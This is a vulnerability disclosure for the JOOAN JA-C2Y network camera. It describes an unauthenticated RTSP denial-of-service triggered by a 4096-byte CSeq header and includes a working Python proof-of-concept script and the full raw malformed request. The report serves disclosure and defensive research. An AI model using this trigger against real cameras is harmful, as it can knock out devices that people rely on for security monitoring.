




# JOOAN JA-C2Y - Unauthenticated RTSP Resource Exhaustion via Oversized CSeq Header

### Information

Vendor: Shenzhen Jooan Technology Co., Ltd. (JOOAN / 乔安)

Affected Product: JOOAN JA-C2Y network camera

Affected Firmware Version: 05.02.32.19

Vendor Homepage: [https://www.jooancam.com](https://www.jooancam.com)

Vendor Contact Information: [support@jooancam.com](mailto:support@jooancam.com) / +1 (800) 678-9326 (JOOAN Contact Support: https://www.jooancam.com/support/contact)



Affected Component: RTSP service (TCP/554)

### Description

A vulnerability in the RTSP service of JOOAN JA-C2Y cameras allows an unauthenticated attacker to consume RTSP connection resources. A crafted request with an oversized CSeq header is accepted but receives no RTSP response, and the connection remains open. The behavior was reproduced in OPTIONS, DESCRIBE, SETUP, and PLAY requests; repeated or concurrent requests may cause a denial of service.

### Exploit Demo

The tested deployment does not require RTSP authentication. The PoC first sends a normal `OPTIONS` request, which returns `200 OK`, and then sends an `OPTIONS` request whose `CSeq` value is replaced by 4096 `A` bytes. The malformed request receives no RTSP response within the 30-second observation window.

The terminal output shows the baseline `200 OK`, the oversized `CSeq` request, and the 30-second timeout:



Wireshark shows the oversized `CSeq` request and the absence of a response; the malformed connection remains open:



Wireshark `Follow TCP Stream` shows the complete 4096-byte `CSeq` value and the missing RTSP response:



The same behavior was reproduced in five request positions:

| Request | Seed position | Observed result |
|---|---|---|
| `OPTIONS` | `blocks[0].headers.CSeq` | 30-second timeout |
| `DESCRIBE` | `blocks[1].headers.CSeq` | 30-second timeout |
| `SETUP` (track 1) | `blocks[2].headers.CSeq` | 30-second timeout |
| `SETUP` (track 2) | `blocks[3].headers.CSeq` | 30-second timeout |
| `PLAY` | `blocks[4].headers.CSeq` | 30-second timeout |

`TEARDOWN` was not part of the original five `CSeq` field reports and is not claimed here. Boundary checks on `OPTIONS` showed that `2147483647`, `2147483648`, and a 20-digit decimal value returned `200 OK`, while 4096-byte numeric values timed out; the trigger is therefore the oversized header, not a single integer boundary.

Each malformed request leaves an RTSP connection open without a response. Repeated or concurrent malformed requests can accumulate and may exhaust RTSP connection resources, potentially causing a denial of service. The exact connection limit was not measured in this test. The PoC uses `OPTIONS` as the representative trigger; the other four positions are documented above.

A 49-second screen recording of the full reproduction is provided as [04_reproduction_video.mp4](./images/04_reproduction_video.mp4). It shows the baseline OPTIONS, the oversized CSeq request, and the 30-second timeout.

### POC

The following standalone Python 3 PoC reproduces the representative trigger. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values. This trigger does not require authentication; the credential placeholders are retained for consistency. The trigger value is defined explicitly as `TRIGGER_CSEQ = "A" * 4096` and `TRIGGER_REQUEST`.

```python
#!/usr/bin/env python3
"""JOOAN JA-C2Y oversized CSeq RTSP PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
The script sends a normal OPTIONS request, then an OPTIONS request with a
4096-byte CSeq value. The malformed request receives no RTSP response.
Run this file directly from VS Code.
"""

import socket
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554

# Not required for this unauthenticated trigger.
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

REQUEST_INTERVAL = 1.0
RESPONSE_WAIT = 30.0
USER_AGENT = "JA-C2Y-CSeq-timeout-check/1.0"

BASE = "rtsp://%s:%d/live/ch00_0" % (TARGET_IP, TARGET_PORT)

# Request 1: normal OPTIONS.
BASELINE_OPTIONS = (
    f"OPTIONS {BASE} RTSP/1.0\r\n"
    "CSeq: 2\r\n"
    f"User-Agent: {USER_AGENT}\r\n\r\n"
)

# Request 2: the trigger. CSeq is replaced by 4096 "A" bytes.
TRIGGER_CSEQ = "A" * 4096
TRIGGER_REQUEST = (
    f"OPTIONS {BASE} RTSP/1.0\r\n"
    f"CSeq: {TRIGGER_CSEQ}\r\n"
    f"User-Agent: {USER_AGENT}\r\n\r\n"
)


def show_payload(payload):
    text = payload.decode("latin-1")
    print("  send:")
    for line in text.rstrip("\r\n").split("\r\n"):
        if line.startswith("CSeq: ") and len(line) > 120:
            value = line[len("CSeq: "):]
            line = "CSeq: " + value[:32] + "... [%d-byte CSeq value]" % len(value)
        print("    | " + line)


def read_status(stream):
    status = stream.readline()
    if not status:
        return None
    if not status.startswith(b"RTSP/1.0 "):
        return "unexpected status line"
    headers = []
    while True:
        line = stream.readline()
        if not line:
            return None
        if line in (b"\r\n", b"\n"):
            break
        headers.append(line.decode("latin-1").rstrip("\r\n"))
    for line in headers:
        if line.lower().startswith("content-length:"):
            length = int(line.split(":", 1)[1].strip())
            remaining = length
            while remaining:
                chunk = stream.read(remaining)
                if not chunk:
                    break
                remaining -= len(chunk)
            break
    return status.decode("latin-1").strip()


def send_and_read(sock, stream, label, payload, timeout):
    if isinstance(payload, str):
        payload = payload.encode("latin-1")
    print("\n[%s]" % label)
    show_payload(payload)
    time.sleep(REQUEST_INTERVAL)
    try:
        sock.sendall(payload)
        sock.settimeout(timeout)
        status = read_status(stream)
    except socket.timeout:
        print("  -> TIMEOUT: no RTSP response within %.1fs" % timeout)
        return None
    except (OSError, ValueError) as exc:
        print("  -> %s: %s" % (type(exc).__name__, exc))
        return None
    print("  <- %s" % (status or "connection closed"))
    return status


def main():
    print("=" * 70)
    print("JOOAN JA-C2Y oversized CSeq RTSP PoC")
    print("  target: %s:%d" % (TARGET_IP, TARGET_PORT))
    print("  trigger: OPTIONS with a 4096-byte CSeq value")
    print("=" * 70)

    sock = socket.create_connection((TARGET_IP, TARGET_PORT), timeout=5)
    stream = sock.makefile("rb")
    try:
        status = send_and_read(
            sock, stream, "[1/2] Baseline OPTIONS", BASELINE_OPTIONS, 5.0)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Baseline OPTIONS did not return 200; aborting.")
            return

        print("\n" + "=" * 70)
        print(">>> TRIGGER: [2/2] OPTIONS with 4096-byte CSeq <<<")
        print(">>> This is the request that hangs the RTSP session. <<<")
        print("=" * 70)
        send_and_read(
            sock, stream, "[2/2] TRIGGER OPTIONS", TRIGGER_REQUEST, RESPONSE_WAIT)
    finally:
        try:
            stream.close()
        except OSError:
            pass
        try:
            sock.close()
        except OSError:
            pass


if __name__ == "__main__":
    main()

```

### MSG

The complete representative trigger is shown below. `192.168.1.100` is a placeholder for the target address. The second request carries exactly 4096 `A` bytes in `CSeq`; all request lines use CRLF.

```text
OPTIONS rtsp://192.168.1.100:554/live/ch00_0 RTSP/1.0
CSeq: 2
User-Agent: JA-C2Y-CSeq-timeout-check/1.0

OPTIONS rtsp://192.168.1.100:554/live/ch00_0 RTSP/1.0
CSeq: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
User-Agent: JA-C2Y-CSeq-timeout-check/1.0
```

The original fuzzer class covered `OPTIONS`, `DESCRIBE`, both `SETUP` positions and `PLAY`; the PoC uses `OPTIONS` as the single representative trigger. `TEARDOWN` is not claimed.

### Credit

CRfuzzer
